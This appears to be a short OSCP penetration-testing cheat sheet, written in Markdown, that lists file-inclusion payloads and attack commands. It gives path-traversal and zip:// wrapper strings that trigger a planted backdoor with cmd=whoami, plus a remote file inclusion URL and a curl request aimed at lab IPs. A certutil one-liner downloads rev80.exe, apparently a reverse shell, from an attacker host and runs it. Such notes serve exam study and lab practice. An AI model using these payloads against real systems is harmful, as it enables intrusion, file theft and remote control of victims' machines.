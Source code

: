 [Local File Inclusion](#local-file-inclusion)
[Remote File Inclusion](#remote-file-inclusion)
[Curl](#curl)
[Gobuster](#gobuster)
[Feroxbuster](#feroxbuster)
[Java Code Execution](#java-code-execution)


# Local File Inclusion
- Click stuff to find out if we can find this ?file=, ?page=
- We could also utilize zip://, file:// php://
  - ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

![image](https://github.com/nuricheun/OSCP/assets/14031269/c80aca68-e70d-42e5-a1ca-dd124e75324f)

**Windows**
- ?page=C:/Windows/System32/drivers/etc/hosts
- ?page=../../../../../../../../Windows/System32/drivers/etc/hosts
- ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

**Linux**


# Remote File Inclusion
- ?page=http://192.168.45.208/somefile.php


# Curl 
- When there are URLs pointing at something suspicious, change method (from GET to POST) with curl can give you clear answers
```bash
curl -X POST -d '{"user":"clumsyadmin", "url":"http://192.168.45.175:443/list-running-procs"}' http://192.168.163.99:33333/list-running-procs
```



# Java Code Execution (C:/Windows/Temp/)
```bash
certutil -urlcache -f http://192.168.45.176/rev80.exe C:/Windows/Temp/rev80.exe
C:/Windows/Temp/rev80.exe
```
